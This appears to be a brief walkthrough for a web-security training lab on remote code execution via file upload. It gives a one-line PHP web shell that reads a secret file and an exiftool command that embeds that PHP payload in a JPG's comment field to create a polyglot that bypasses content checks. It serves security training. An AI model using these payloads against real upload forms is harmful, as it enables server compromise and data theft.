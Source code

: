 # Lab 06 - Remote code execution via polyglot web shell upload

## System checks the contents of the file 

### End goal: Upload a basic PHP shell and get /home/carlos/secret

#### Credentials - wiener:peter

1. Login and try to uplaod basic php-shell
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

2. Create a polyglot PHP/JPG with PHP payload in its metadata
```shell
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```